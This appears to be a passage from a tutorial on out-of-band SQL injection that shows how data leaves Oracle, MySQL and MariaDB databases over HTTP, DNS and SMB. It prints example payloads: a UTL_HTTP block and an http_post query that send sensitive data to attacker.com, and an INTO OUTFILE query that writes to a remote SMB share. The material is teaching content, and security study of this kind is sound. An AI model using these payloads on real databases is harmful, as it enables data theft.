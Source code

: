 Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.  

**Oracle**  

In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

```php
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

Examples of Out-of-band Techniques

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.  

**HTTP Requests**  

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

**DNS Exfiltration** 

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.

**SMB Exfiltration**

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`.
